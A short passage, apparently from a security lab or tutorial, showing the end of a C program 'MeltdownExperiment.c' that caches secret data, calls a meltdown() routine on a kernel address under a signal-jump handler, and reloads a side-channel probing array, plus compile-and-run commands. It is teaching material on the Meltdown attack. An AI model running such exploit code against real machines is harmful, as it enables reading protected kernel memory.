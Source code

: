 ```c
    /* Then, cause the secret data to be cached */
    ssize_t ret = pread(fd, NULL, 0, 0);

    if (sigsetjmp(jbuf, 1) == 0) {
        meltdown(0xfd2aab32);
    } else {
        printf("Memory access violation!\n");
    }

    /* Reload the probing array */
    reloadSideChannel();

    return 0;
}
```

Compile and run it:
```console
$ gcc -march=native MeltdownExperiment.c -o MeltdownExperiment
$ ./MeltdownExperiment
Killed
```